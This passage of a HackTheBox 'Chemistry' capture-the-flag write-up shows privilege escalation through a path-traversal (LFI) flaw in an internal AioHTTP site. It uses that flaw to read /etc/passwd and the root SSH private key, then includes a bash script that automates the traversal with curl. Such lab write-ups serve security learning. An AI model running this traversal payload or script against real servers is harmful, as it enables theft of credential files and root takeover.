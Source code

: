 So we proceed with some directory brute forcing on the internal website and find `/assets`.

![directory brute forcing on internal website](/images/HTB-Chemistry/gobuster_internal_website.png)

The vulnerabity is exploited through LFI and we can test that ourselves. After capturing a request, we successfully exploit the LFI vulnerability to read the `/etc/passwd` file.

![LFI vulnerability](/images/HTB-Chemistry/LFI_vuln.png)

By adjusting the payload to `/assets/../../../../root/.ssh/id_rsa` we obtain the root SSH key.

![root SSH key leaked](/images/HTB-Chemistry/root_ssh_key.png)

Using the key we can now login as root.

```
ssh -i id_rsa root@chemistry.htb
```

![root flag](/images/HTB-Chemistry/root_flag.png)

### Automated LFI

We can modify the exploit script accordingly to make it work.

> We change the port number in `url`, the `payload` and `file` values.

```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

![automated LFI in AioHTTP](/images/HTB-Chemistry/auto_LFI.png)








